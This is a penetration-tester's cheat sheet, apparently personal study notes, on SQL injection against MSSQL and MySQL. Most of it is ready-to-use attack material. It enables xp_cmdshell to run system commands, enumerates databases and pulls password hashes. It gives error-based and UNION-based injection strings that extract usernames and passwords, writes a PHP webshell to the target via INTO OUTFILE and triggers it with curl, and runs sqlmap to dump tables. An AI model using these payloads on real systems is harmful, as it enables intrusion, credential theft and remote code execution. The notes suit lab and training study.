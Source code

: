 # SQLi

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines

SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '' union select database(), user(), @@version, null, null -- //'";
```
The `order by` injection retrieves the table size.

#### Php injection

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## Sqlmap

https://sqlmap.org/
 
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


